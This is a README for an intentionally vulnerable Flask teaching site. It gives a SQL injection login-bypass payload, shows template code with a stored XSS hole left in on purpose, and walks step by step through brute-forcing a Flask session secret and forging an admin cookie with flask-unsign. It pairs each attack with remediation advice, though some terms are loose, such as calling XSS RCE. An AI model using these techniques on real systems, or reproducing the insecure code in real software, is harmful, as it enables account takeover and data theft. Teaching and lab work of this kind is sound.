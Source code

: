 # VulnerableWebsite
* This a `Student Management` website build on Flask and MySQL database for demonstrating OWASP vulnerabilities.
* The website features user registration and login, profile viewing and discussion posting functionalities.
* User with username `admin` when created can view profiles for all registered users on its `Profile` page. All other users can only view thier own profile details.
* Every user can post comments and view comments posted by all other users on `Discussions` page.

## How to run
* Prerequisite: Install Docker Desktop.
* Clone this repository `https://github.com/RohanKumarSachdeva/VulnerableWebsite`.
* Change the directory to `VulnerableWebsite`
* Run `docker-compose up`
* Browse to `http://127.0.0.1:5000/` to access the application.

#### Note: Register a user with username `admin` to unlock admin profile viewing feature.

## OWASP vulnerabilities Detail and their Remediations
### 1. SQL Injection:
#### Attack Details:
This vulnerability allows an attacker to interfere with the queries that an application makes to its database by
**subverting the query logic**.
Our vulnerable application lets users log in with a username and password. If a user submits the username `adam` and the password `qwerty`, the application checks the credentials by concatenating them as shown below, and forms a SQL query:
> "SELECT * FROM accounts WHERE username=" + username + " AND password=" + password

Which transforms to:
> SELECT * FROM users WHERE username = 'adam' AND password = 'qwerty'

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence `-- ` which will comment out the password check from the `WHERE` clause of the query. For example, submitting the username **`admin'-- `** and a blank/wrong password results in the following query:
> SELECT * FROM users WHERE username = 'admin'-- ' AND password = ''

This query returns the user details **in-band**, if its username `admin` exists in the database and successfully logs the attacker in as that user. Since `admin` in our application has capability to view details of all registered users, the attacker will now be able to view this information.

#### Remediation Steps: Following are the best practices to avoid SQL Injection
* **Using Prepared/Parameterized statements**. These are pre-compiled SQL statements. The query is already pre-compiled, so the final query will not go through the compilation phase again. For this reason, the user-provided data will always be interpreted as a simple string and cannot modify the original query’s logic. Hence to fix the vulnerability in our application we can use the following parameterized statement where `%s` are placeholders used for parameters that will be supplied during execution time.
> 'SELECT * FROM accounts WHERE username = %s AND password = %s', (username, password)

* **Escaping of user data**. If a parameterized API is not available, we should carefully escape special characters present in the user supplied input. Escaping involves adding a special character before the character/string to avoid it being misinterpreted, for example, adding a `\` character before a `"(double quote)` character so that it is interpreted as text and not as closing a string.

* **HtmlEncode all user input.** Encoding (commonly called “Output Encoding”) involves translating special characters into some different but equivalent form that is no longer dangerous in the target interpreter, for example translating the `<` character into the `&lt`. We can use this technique to further sanitize user input in our application.


### 2. Stored Cross Site Scripting (XSS): can cause RCE
#### Attack Details:
Stored XSS arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. The data in question might be submitted to the application via HTTP requests; for example in our vulnerable application users can use the **Discussion Section** to post comments which get saved to the database. All comments are visible to every registered user, hence if an attacker has injected Javascript via comment it gets saved to the database, and whenever any user loads this discussion section server will return this script. An attacker can craft the Javascript to perform **RCE** that may steal cookies, saved passwords, or CSRF tokens and relay them back to the attacker-controlled domain.

Deep diving into our application code we see the 2 main causes of this vulnerability.
* **No validation/sanitization** of user data before inserting it into database.
```
  # get user comment and insert into discussion table
  comment = request.form['discussion']
  user_id = session["id"]
  user_name = session["username"]
  cursor.execute('INSERT INTO discussions VALUES (NULL, %s, %s, %s)', (user_id, user_name, comment))
  connection.commit()
 ```
            
* **Considering user data to be safe** by using `|safe` tag that renders string without escaping.
```
  {% for row in data %}
    <div>
        <p>{{ row[2] }} commented:</p>
        <p>{{ row[3]|safe }}</p>
    </div>
  {% endfor %}
```
#### Remediation Steps:
* **Filter input on arrival.** At the point where user input is received, filter as strictly as possible based on what is expected or valid input
  - Construct strict **Syntax and Semantic** rules to validate user input.
  - Construct **Whitelisting and Blacklisting** of expected and unexpected user data.
  - Construct **Regular expressions** to validate user input.

* **Output Encoding for “HTML Contexts”.**  Output Encoding is recommended when we need to safely display data exactly as a user typed it in.
Hence in order to add a variable to a HTML context safely, HTML entity encoding should be used for that variable as we add it to a web template. Flask has default encoding capability ([Reference Link](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)), hence to fix the vulnerability in our code we should remove the `|safe` tag so that Flask can encode the string value before adding it to HTML.

### 3. Session Hijacking:
#### Attack Details:
The disclosure, capture, prediction, brute force, or fixation of the session ID will lead to session hijacking (or sidejacking) attacks, where an attacker is able to fully impersonate a victim user in the web application. Our application is vulnerable to **session hijacking and session fixation** which can be explioted by using tools like **flask-unsign**. Flask-unsign ([Download Link](https://pypi.org/project/flask-unsign/)) is a command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. Below are the steps on how to exploit the session vulnerability in our flask application:

* **Step 1:**
  - Login to the website and use inspect element to retrieve the server supplied cookie value.
  - Decode the above retrieved session cookie using flask-unsign.
  ```
  flask-unsign --decode --cookie 'eyJpZCI6MSwibG9nZ2VkaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Y6-xzg.NeUwSfTaH1n2gWd5qhqSsNv-7Tk'
  ```
  - Output: decoded cookie value.
  ```
  {'id': 1, 'loggedin': True, 'username': 'test'}
  ```

* **Step 2:**
  - Use wordlist ([Download Link](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjstLrx8af8AhX8-DgGHQJyA0UQFnoECBMQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd)) of common passwords to bruteforce the secret key.
   ```
   flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJpZCI6MSwibG9nZ2VkaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Y6-xzg.NeUwSfTaH1n2gWd5qhqSsNv-7Tk'  --no-literal-eval
   ```
  - Output: API key **`s3cr3t`** obtained via brute-force.
  ```
  [*] Session decodes to: {'id': 1, 'loggedin': True, 'username': 'test'}
  [*] Starting brute-forcer with 8 threads..
  [+] Found secret key after 70144 attempts
  b's3cr3t'
  ```

* **Step 3:**
  - Craft a session cookie using the secret obtained in Step 2.
  ```
   flask-unsign --sign --cookie "{'id': 2, 'loggedin': True, 'username': 'admin'}" --secret 's3cr3t'
  ```

  - Output: temporary cookie for username **`admin`**.
  ```
   eyJpZCI6MiwibG9nZ2VkaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Y6-0ng.j6FmpIcxhSd8_6URCDmy03sFnX8
  ```

* **Step 4:**
  - Again use the inspect element of the browser to include this crafted cookie in the next request.
  - We will now be logged in as `admin` user and can now view profiles for every registered users.
  - Similar technique can be used to fixate session of any valid user present in the database.
  
#### Remediation Steps:
* Make sure to use strong API key using CPRG.